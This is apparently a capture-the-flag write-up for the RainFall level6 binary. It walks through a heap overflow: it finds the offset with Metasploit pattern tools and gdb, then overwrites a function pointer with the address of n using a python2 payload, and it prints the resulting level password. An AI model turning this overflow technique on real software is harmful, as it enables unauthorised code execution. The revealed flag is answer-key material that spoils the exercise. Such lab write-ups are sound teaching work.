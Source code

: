 # Level 6


in this level we have a heap overflow vulnerability, we can overwrite the fun pointer to point to the n function and get the password.

first we need to find the offset, we can do that with metasploit pattern_create and pattern_offset.

```bash
┌──(kali㉿kali)-[~/rainfall]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

in gdb we can run the program with the pattern as an argument and check the value of the function pointer.

```bash
(gdb) r "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/level6/level6 "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"

Breakpoint 1, 0x080484c5 in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
(gdb) info registers
eax            0x41346341       1093952321
ecx            0xbffff900       -1073743616
edx            0x804a069        134520937
ebx            0xb7fd0ff4       -1208152076
esp            0xbffff69c       0xbffff69c
ebp            0xbffff6c8       0xbffff6c8
esi            0x0      0
edi            0x0      0
eip            0x41346341       0x41346341
eflags         0x210202 [ IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

the value of the function pointer is 0x41346341, we can use pattern_offset to find the offset.

```bash
┌──(kali㉿kali)-[~/rainfall]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 100 -q 0x41346341
[*] Exact match at offset 72
```

now let's find the address of the n function.

```bash
──(kali㉿kali)-[~/rainfall]
└─$ gdb -q level6
GEF for linux ready, type `gef' to start, `gef config' to configure
93 commands loaded and 5 functions added for GDB 15.1 in 0.00ms using Python engine 3.12
Reading symbols from level6...
(No debugging symbols found in level6)
gef➤  p n
$1 = {<text variable, no debug info>} 0x8048454 <n>
````

now we can easily exploit it with the following payload.

```bash
level6@RainFall:~$ ./level6 $(python2 -c 'print "A"*72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
